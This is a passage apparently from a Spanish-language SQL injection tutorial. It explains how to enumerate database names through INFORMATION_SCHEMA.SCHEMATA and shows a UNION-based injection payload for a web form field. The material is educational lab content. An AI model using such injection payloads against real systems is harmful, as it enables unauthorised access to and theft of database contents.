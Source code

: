 ```sql
SELECT * FROM my_database.users;
```

##### SCHEMATA

Para comenzar con la enumeración, debemos averiguar qué bases de datos están disponibles en el DBMS. 
La tabla SCHEMATA de la base de datos INFORMATION_SCHEMA contiene información sobre todas las bases de datos del servidor. Se utiliza para obtener los nombres de las bases de datos y poder consultarlas. 

La columna SCHEMA_NAME contiene todos los nombres de las bases de datos actualmente presentes.

```shell-session
mysql> SELECT SCHEMA_NAME FROM INFORMATION_SCHEMA.SCHEMATA;

+--------------------+
| SCHEMA_NAME        |
+--------------------+
| mysql              |
| information_schema |
| performance_schema |
| ilfreight          |
| dev                |
+--------------------+
6 rows in set (0.01 sec)
```

SI lo hacemos mediante UNION.

```sql
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -
```

![image](/assets/img/posts/sql-injection/20251013162809.png)
